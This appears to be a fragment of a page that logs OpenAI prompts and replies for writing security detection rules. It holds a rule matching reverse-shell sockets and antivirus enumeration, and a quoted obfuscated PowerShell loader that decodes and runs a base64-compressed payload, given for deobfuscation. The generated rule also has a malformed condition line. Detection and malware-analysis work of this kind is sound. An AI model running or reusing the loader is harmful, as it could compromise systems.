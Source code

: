 ```
      - wmic
      - SecurityCenter2
      - Path 
      - AntiVirusProduct 
      - Get
  condition: selection
```
>Please combine them into one STR Omega with UUID EDR-SYM777-RUN.`
>
`OpenAI Response:`
```
title: Possible Hafnium Group Activity Reverse Shell Connection and Installed AntiVirus Products Enumeration Analytic
uuid: EDR-SYM777-RUN

omega_securonix_ueba:
    snpr_policy:
        violator: Activityaccount, Resources
        category: 'ALERT'
        threatname: 'Suspicious Access Pattern, Windows Management Instrumentation'
        functionality: 'Endpoint Management Systems'

logsource:
  category: process_creation
  product: windows

detection:
  selection:
    CommandLine|contains:
      - "system.net.sockets.tcpclient"
      - wmic
      - SecurityCenter2
      - Path 
      - AntiVirusProduct 
      - Get
  condition: selection *
```

<h4>9. Incorrect response</h4>

`OpenAI prompt:` 
> Extract final payload  
```
. ( $ShellId[1]+$sHellId[13]+‘x’)( nEw-OBjEct sySTeM.IO.ComPressIon.DEFLatEsTREAm([IO.mEmOrySTrEAM][conVerT]::fromBASe64sTRING( ‘TZFRa8IwFIXf9ysupRsJs6FuOJhlwixuE0Ytq+CD+BDbi+1s02IiWtT/vqa1nRCSSzjnnu8mRX7AnYwxTcHycl9vYgrWAr6SKEIB1uSIIYzLgksJlptnGRcReHiwZutfDBUEpVSYMQ8VC/Jwi0qyueu7aYJCEaNvs3YZvVfb7lPHlGqHPIM3MMNaxT5RBfUdoc5yXSpcrlamPmUlshl7GQyeB+f7k31xDnGSIiFmou1NI/aDPCKNvgd2D5qSfaPYqJhSsASCTU+OGXHFKx+5obfmZYEez7CdY45Hxd4DdzqdiDCPErGhV76qbFN0SKInQRGtebjVTRM8QpPwNHrowxlme2U1NriRPkFN3hofwfADMKqTFIeIMp+rWF+OwLh6qkDdfqk0GF6ZVsNhzVizjTUT+U/onpgtdolC0vWpuLu6fZ5O+5HuZUzoxWl/xU1ziYTe/QE=’ ), [io.COMPressiOn.CoMPRessIonmODE]::DEcOMpREsS) fOReaCh-ObjEcT {nEw-OBjEct Io.streAmREADEr($_,[System.TexT.encodinG]::AsCIi)} fOreach-ObJecT{ $_.reADTOeNd() } )  
```
